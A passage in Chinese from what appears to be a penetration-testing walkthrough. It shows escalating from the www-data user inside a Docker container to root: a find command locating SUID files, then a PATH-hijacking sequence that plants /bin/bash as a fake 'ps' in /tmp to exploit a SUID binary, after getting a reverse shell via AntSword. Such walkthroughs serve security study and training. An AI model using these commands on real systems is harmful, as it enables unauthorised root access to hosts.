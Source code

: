 这样好吗，这样不好！下面我们需要docker逃逸来获取目标主机（docker宿主机）的权限。但此时我们所获得的是www-data用户的权限，权限比较低，干不成什么大事，所以要想办法提升一下权限。官方文档中提到了Linux环境变量提权，我们直接使用find命令来搜索具有SUID或4000权限的文件：

find / -perm -u=s -type f 2>/dev/null

通过执行上述命令，攻击者可以遍历任何可执行文件，在这里我们可以看到/home/jobs目录下有一个shell文件，这名字很显眼，并且其具有SUID权限：

![img](assets/1700555905505-8ce437de-70f5-4469-abc2-5f1ba6d0a42f.jpeg)

于是我们cd到/home/jobs目录下，ls一下，确实看到了名为shell的可执行文件。我们运行一下这个文件：

![img](assets/1700555905441-e9bfca80-31b5-471b-a252-9578de48389f.jpeg)

可以看到shell文件执行了ps命令，并且未使用绝对路径，所以我们可以尝试更改$PATH来执行我们的恶意程序，从而获得目标主机的高权限shell。

首先使用蚁剑反弹一个shell过来，然后在shell中执行如下命令：

cd /tmp echo "/bin/bash" > ps chmod 777 ps echo $PATH  export PATH=/tmp:$PATH # 将/tmp添加到环境变量中，并且先加载执行/tmp里的程序 cd /home/jobs ./shell # 然后就获得了root权限，可以执行命令了

![img](assets/1700555905509-4b73390e-3a15-4570-9404-15d12fecf707.jpeg)
